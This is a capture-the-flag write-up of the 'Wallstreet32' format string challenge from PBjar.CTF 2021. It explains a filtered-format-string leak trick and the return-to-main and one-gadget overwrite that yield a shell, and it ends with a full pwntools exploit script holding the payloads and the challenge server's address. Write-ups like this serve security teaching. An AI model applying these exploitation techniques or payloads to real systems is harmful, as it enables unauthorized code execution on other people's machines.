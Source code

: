 ​**Wallstreet32** ,

was a pwn challenge from PBjar.CTF.2021.

A kind of heavily restricted format string in one shot.  (most people hated them, I like them...)

I finished just after the ctf end, because there was a difference in ld.so & libc mappings in the remote docker.. so it keeps having O solves..

anyway , here is a write-up.

first a quick protection check..

![](https://github.com/nobodyisnobody/write-ups/raw/main/PBjar.CTF.2021/pwn/Wallstreet32/pics/checksec.png)

and we reverse the main function buy_stonks(), which is basically an heavily filtered format string vulnerability (max 300 bytes),

where all the possible characters for having a leak, %c %d %x, etc... are forbidden...

you can only use %n and %c and positionnal notation also...

![](https://github.com/nobodyisnobody/write-ups/raw/main/PBjar.CTF.2021/pwn/Wallstreet32/pics/reverse.png)

well restricted..??

it makes me think of a trick I found playing in a ctf a while ago.. 

you can get a leak from the current index in the format string, in decimal notation with this string '%*\n'

yes it's nonsense , but try it, it just works  the '\n' is carriage return..  don't ask me why it works, it's probably a libc bug...

and it passes the filter... not well known ... but usefull..

so we will proceed like this... we will use two pointers on stack, that point themselves to another pointer further on stack..

like this we will modify the second pointer with the first... we continue to advance with %c in index, and when we reach the second pointer we write with it..

first we will do a little bruteforce to return to main.. by writing the lsb of buy_stonks() function return address.

we replace the lsb 0x79 by 0x67..like this, we execute again buy_stonks() at return,  with the same stack configuration...

then with our two stack pointers,  we write the libc got address to stack, as it is needed for the onegadget to works..

then we write the onegadget, instead of the libc_main return address at main() function return...

and we got shell...

P.S.: there is a second version on the github that upload a ROP on stack instead of using a onegadget, but does not make much difference...

see in in action

![](https://github.com/nobodyisnobody/write-ups/raw/main/PBjar.CTF.2021/pwn/Wallstreet32/pics/gotshell1.gif)


the exploit

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="i386", os="linux")
context.log_level = 'error'

def tohex(val, nbits):
  return hex((val + (1 << nbits)) % (1 << nbits))

exe = ELF('./wallstreet32')
libc = ELF('./libc.so.6')

if args.REMOTE:
  host, port = "143.198.127.103", "42006"


print('trying to do a ret2main an to have good stack configuration...')
count = 0
# first we do a little bruteforce for waiting the good stack configuration, and trying a ret2main
while (True):
  if args.REMOTE:
    p = remote(host,port)
  else:
    p = process(exe.path)
  p.sendlineafter('stonks!\n','1')
  p.sendlineafter('see?\n', '47')
  payload = '%c'*84+'%220c'+'%hhn'+'%c'*3+'%*\n'+'%c'*18+'%119c'+'%hhn'+'%c'+'%*\n'+'%c'+'%*\n'
  p.sendlineafter('token?\n', payload)
  p.recvuntil('token:\n', drop=True)

  # got our leaks
  # libc leak (libc got actually)
  p.readuntil('%',drop=True)
  leak2 = int(p.recvuntil('\n',drop=True),10)
  libc.address = (0x100000000+leak2) - 0x1e5000
  # progbase leak
  p.readuntil('%',drop=True)
  leak1 = int(p.recvuntil('\n',drop=True),10)
  progbase = leak1 - 0x15f0
  # stack leak
  p.readuntil('%',drop=True)
  leak3 = int(p.recvuntil('\n',drop=True),10)

  try:
    # if we received back stonks string, the ret2main was successfull
    out = p.recvuntil('stonks!\n', timeout=3)
    break
  except:
    # if it fails, try again...
    count +=1
    print('try ret2main: '+str(count))
    p.close()

print('ret2main success')
# dump our precious leaks
print('prog base = '+tohex(progbase,32))
print('libc base = '+tohex(libc.address,32))
print('leak stack = '+tohex(leak3,32))

low0 = (leak3 - 0x1d0) & 0xffff

p.sendline('1')
p.sendlineafter('see?\n', '47')

oneg = libc.address + 0x142feb	# onegdaget address
got = libc.address + 0x1e5000   # libc got address

# first we setup stack pointers
count = 0
payload = '%c'*76+'%'+str(low0-76)+'c'+'%hn'+'%c'*18+'%218c'+'%hhn'
payload += '%c'*31+'%'+str(0x40)+'c'+'%hhn'
payload += 'Cc'

p.sendlineafter('token?\n', payload)
p.recvuntil('Cc', drop=True)
p.sendlineafter('see?\n', '1')
count += 1

# first we write got address needed by the onegadget on stack
count = 0
while (count<3):
  # 1st round we write index to write in 2nd round
  payload = '%'+str(count+9)+'c'+'%98$hhn'+'%'+str(0x67-(9+count))+'c'+'%131$hhnCc'
  p.sendlineafter('token?\n', payload)
  p.recvuntil('Cc', drop=True)
  p.sendlineafter('see?\n', '1')

  # we write got byte by byte to the stack
  payload = '%'+str(0x67)+'c%131$hhn'+'%'+str(0x99+((got>>((count+1)*8)) & 0xff))+'c%122$hhnCc'
  p.sendlineafter('token?\n', payload)
  p.recvuntil('Cc', drop=True)
  p.sendlineafter('see?\n', '1')
  print('count='+str(count))
  count+=1


# then we replace return address libc_main, with a onegadget address
print('now sending one gadget..')
count = 0
while (count<4):
  # 1st round write the index for the 2nd rount
  payload = '%'+str(count+0x1c)+'c'+'%98$hhn'+'%'+str(0x67-(0x1c+count))+'c'+'%131$hhnCc'
  p.sendlineafter('token?\n', payload)
  p.recvuntil('Cc', drop=True)
  p.sendlineafter('see?\n', '1')

  # 2nd round we write onegagdget address byte by byte
  payload = '%'+str(0x67)+'c%131$hhn'+'%'+str(0x99+((oneg>>(count*8)) & 0xff))+'c%122$hhnCc'
  p.sendlineafter('token?\n', payload)
  p.recvuntil('Cc', drop=True)
  p.sendlineafter('see?\n', '1')
  print('count='+str(count))
  count+=1

p.sendlineafter('token?\n','%c')
# gotshell

p.interactive()
```
*nobodyisnobody still pwning things...*

